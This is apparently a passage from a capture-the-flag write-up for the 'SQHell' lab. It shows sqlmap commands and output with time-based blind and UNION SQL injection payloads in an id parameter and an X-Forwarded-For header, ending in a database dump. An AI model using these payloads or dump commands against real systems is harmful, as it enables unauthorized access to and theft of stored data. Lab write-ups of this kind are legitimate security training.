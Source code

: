 ```bash
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=2 AND (SELECT 6269 FROM (SELECT(SLEEP(5)))pcPu)

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: id=-3279 UNION ALL SELECT NULL,NULL,CONCAT(0x71766a7171,0x797a5a4d55586466716748517977796a636f7359655a46646b5a4b714c56466a4857726272576f68,0x717a717071),NULL-- -

...
[INFO] the back-end DBMS is MySQL
...
[INFO] retrieved: 'information_schema'
...

[INFO] retrieved: 'sqhell_5'
available databases [2]:                                                                                           
[*] information_schema
[*] sqhell_5
...
[INFO] fetched data logged to text files under '/root/.sqlmap/output/TargetIP'
```

<br>

```bash
:~/SQHell# sqlmap --dbms mysql --headers="X-forwarded-for:1*" -u http://TargetIP/
...
custom injection marker ('*') found in option '--headers/--user-agent/--referer/--cookie'. Do you want to process it? [Y/n/q] Y
[...] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: X-forwarded-for #1* ((custom) HEADER)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: 1' AND (SELECT 5385 FROM (SELECT(SLEEP(5)))XLir) AND 'uMCO'='uMCO
```

<br>

```bash

:~/SQHell# sqlmap --dbms mysql --headers="X-forwarded-for:1*" -u http://TargetIP/ -D sqhell_5 --dump
...

[INFO] fetched data logged to text files under '/root/.sqlmap/output/TargetIP

```

<br>

